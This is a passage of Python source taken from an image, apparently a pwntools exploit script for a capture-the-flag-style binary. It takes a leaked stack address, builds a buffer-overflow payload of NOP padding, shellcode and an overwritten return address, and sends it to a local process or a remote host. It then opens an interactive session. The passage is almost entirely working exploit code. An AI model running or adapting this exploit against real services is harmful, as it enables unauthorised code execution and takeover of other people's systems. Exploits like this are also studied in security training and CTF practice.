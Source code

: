 ```
NOP = b"\x90"
PADDING = NOP * (16 - buf_len % 16)


# b *vuln
gdb_script = """
b *firewall_check
b *firewall_check+64
b *firewall_check+110
b *firewall_check+147
b *vuln+181
c
"""
print("____________________________________")
print(f"Len of buffer: {buf_len}")
print(f"Disasm: {disasm(buf)}")


def start(argv=[], *a, **kwargs):
    if args.GDB:
        return gdb.debug([PROGRAM_PATH] + argv, gdbscript=gdb_script, *a, **kwargs)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
    else:
        return process([PROGRAM_PATH] + argv, *a, **kwargs)


io = start()
res = io.recvuntil(delims=": ")
print("____________________________________")
print(res)


# Get the stack address
print("____________________________________")
stack_addr = io.recvline().decode("ascii").strip()
print(f"Our buffer address received: {stack_addr}")
stack_addr_int = int(stack_addr, 16)

payload = (
    PADDING + buf + (BUF_SIZE - len(PADDING) - buf_len) * NOP + p64(stack_addr_int)
)


# print("____________________________________")
# Get the stack address
# res = io.recvlines(2)
# print(res)
print(f"Sending payload")
io.sendline(payload)

print("____________________________________")
# res = io.recvline()
# print(res)

io.interactive()

```
